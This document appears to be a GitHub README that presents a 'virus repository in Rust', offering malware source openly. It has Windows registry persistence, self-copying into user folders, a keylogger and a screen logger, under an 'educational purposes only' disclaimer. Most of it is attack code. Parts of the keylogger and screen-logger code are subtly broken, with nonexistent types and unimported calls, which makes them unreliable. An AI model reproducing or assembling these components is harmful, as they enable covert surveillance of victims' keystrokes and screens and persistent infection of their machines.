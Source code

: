 # Virus Repository in Rust

This repository contains code and commands for various functionalities of a virus. These functionalities are for educational purposes only, and should not be used for any malicious purposes.

# Disclaimer
The author of this repository is not responsible for any damage or harm caused by the use of this code or commands. Use at your own risk.

# Persistence: 
Adds itself to the Windows registry to ensure it runs on startup

``` rs
use std::process::Command;
use winreg::enums::*;
use winreg::RegKey;

fn add_to_startup() -> Result<(), std::io::Error> {
    let key = RegKey::predef(HKEY_CURRENT_USER)
        .create_subkey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run")?;

    let exe_path = std::env::current_exe()?;
    let exe_file_name = exe_path.file_name().unwrap().to_str().unwrap();

    key.set_value(exe_file_name, &exe_path.to_str().unwrap())?;

    Ok(())
}

fn main() {
    // Code for the virus
    // ...

    // Add the virus to the Windows startup
    add_to_startup().unwrap();
}
```
This code creates a registry key at `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` and sets the value of the executable's filename to the path of the executable. This ensures that the virus will run on startup. Note that this code is specific to Windows and will not work on other operating systems. Also, the user must have sufficient privileges to modify the registry.

# Spreadability: 
creates copies of itself in various locations on the user's computer to increase its chance of executing

``` rs
use std::fs::copy;
use std::io::Result;
use std::path::PathBuf;

fn copy_to_location(virus_path: &PathBuf, location: &PathBuf) -> Result<()> {
    let new_path = location.join(virus_path.file_name().unwrap());

    copy(virus_path, new_path)?;

    Ok(())
}

fn spread_virus() -> Result<()> {
    let virus_path = std::env::current_exe()?;
    let virus_name = virus_path.file_name().unwrap();

    let desktop = PathBuf::from(std::env::var("USERPROFILE").unwrap() + "\\Desktop");
    copy_to_location(&virus_path, &desktop)?;

    let downloads = PathBuf::from(std::env::var("USERPROFILE").unwrap() + "\\Downloads");
    copy_to_location(&virus_path, &downloads)?;

    let temp = std::env::temp_dir();
    copy_to_location(&virus_path, &temp)?;

    Ok(())
}

fn main() {
    // Code for the virus
    // ...

    // Spread the virus
    spread_virus().unwrap();
}
```
# Keylogging

``` rs
// Keylogger in Rust
use std::fs::OpenOptions;
use std::io::Write;
use std::time::Duration;
use winapi::{
    ctypes::c_int,
    shared::{
        minwindef::{DWORD, LPARAM, WPARAM},
        ntdef::LPCWSTR,
        windef::HWND,
    },
    um::{winuser::GetForegroundWindow, winuser::GetWindowTextW},
};
use user32_sys::winuser::{
    GetAsyncKeyState, MapVirtualKeyW, MapVirtualKeyWParams, SendInput, SendInputParams,
    VirtualKeyCode,
};

const LOG_FILE_NAME: &str = "keylog.txt";

fn log_keys() {
    let mut file = OpenOptions::new()
        .create(true)
        .append(true)
        .open(LOG_FILE_NAME)
        .unwrap();
    loop {
        std::thread::sleep(Duration::from_millis(10));
        for i in 0..255 {
            let state = unsafe { GetAsyncKeyState(i as c_int) };
            if (state & 1) == 1 {
                let mut buf = [0u16; 2];
                let mut params = MapVirtualKeyWParams {
                    uCode: i,
                    uMapType: 0,
                };
                unsafe {
                    MapVirtualKeyW(i, 0);
                    let _ = GetWindowTextW(GetForegroundWindow(), buf.as_mut_ptr(), 2);
                    let text = String::from_utf16_lossy(&buf);
                    let _ = write!(file, "[{}]: {}\n", text.trim(), i);
                }
            }
        }
    }
}

fn main() {
    log_keys();
}
```

** ScreenLogging**
``` rs
// Screen Logger in Rust
use std::fs::OpenOptions;
use std::io::{BufWriter, Write};
use std::time::Duration;
use winapi::{
    shared::{
        minwindef::{BOOL, DWORD, HBITMAP, HDC, LPARAM},
        ntdef::LPCWSTR,
        windef::{HDC__, HWND, RECT},
    },
    um::{
        wingdi::{
            BitBlt, CreateCompatibleBitmap, CreateCompatibleDC, DeleteDC, DeleteObject,
            GetDeviceCaps, GetObjectW, SelectObject, BITMAP, COLORREF, SRCCOPY,
        },
        winuser::GetDesktopWindow,
    },
};

const LOG_FILE_NAME: &str = "screenlog.txt";

fn log_screen() {
    let mut file = OpenOptions::new()
        .create(true)
        .append(true)
        .open(LOG_FILE_NAME)
        .unwrap();
    let hwnd = unsafe { GetDesktopWindow() };
    let mut rect: RECT = Default::default();
    let hdc_screen = unsafe { GetDC(hwnd) };
    let hdc = unsafe { CreateCompatibleDC(hdc_screen) };
    let width = unsafe { GetDeviceCaps(hdc_screen, 8) };
let height = unsafe { GetDeviceCaps(hdc_screen, 10) };
let hbitmap = unsafe { SelectObject(hdc, CreateCompatibleBitmap(hdc_screen, width, height)) };
let mut bitmap: BITMAP = Default::default();
let _ = unsafe { GetObjectW(hbitmap as *mut _, std::mem::size_of::<BITMAP>(), &mut bitmap) };
let mut writer = BufWriter::new(file);
loop {
    std::thread::sleep(Duration::from_secs(10));
    unsafe { BitBlt(hdc, 0, 0, width, height, hdc_screen, 0, 0, SRCCOPY) };
    let mut written: DWORD = 0;
    let mut data: Vec<u8> = vec![0; (bitmap.bmWidth * bitmap.bmHeight * 4) as usize];
    let lp_bits: *mut u8 = data.as_mut_ptr();
    let bmi = std::mem::zeroed::<winapi::um::wingdi::BITMAPINFO>();
    let bmi_header = bmi.bmiHeader;
    bmi_header.biSize = std::mem::size_of::<winapi::um::wingdi::BITMAPINFOHEADER>() as u32;
    bmi_header.biWidth = bitmap.bmWidth;
    bmi_header.biHeight = bitmap.bmHeight;
    bmi_header.biPlanes = 1;
    bmi_header.biBitCount = 32;
    bmi_header.biCompression = winapi::um::wingdi::BI_RGB;
    let result = unsafe {
        GetDIBits(
            hdc_screen,
            hbitmap as winapi::um::winnt::HANDLE,
            0,
            bitmap.bmHeight as u32,
            lp_bits as *mut _,
            &bmi,
            winapi::um::winnt::DIB_RGB_COLORS,
        )
    };
    if result == 0 {
        break;
    }
    let color_bytes = 4;
    for row in data.chunks((bitmap.bmWidth * color_bytes) as usize) {
        writer.write_all(row).unwrap();
    }
    writer.flush().unwrap();
}
unsafe {
    DeleteObject(hbitmap as winapi::shared::windef::HGDIOBJ);
    DeleteDC(hdc);
    DeleteDC(hdc_screen);
}
}
fn main() {
log_screen();
}
```

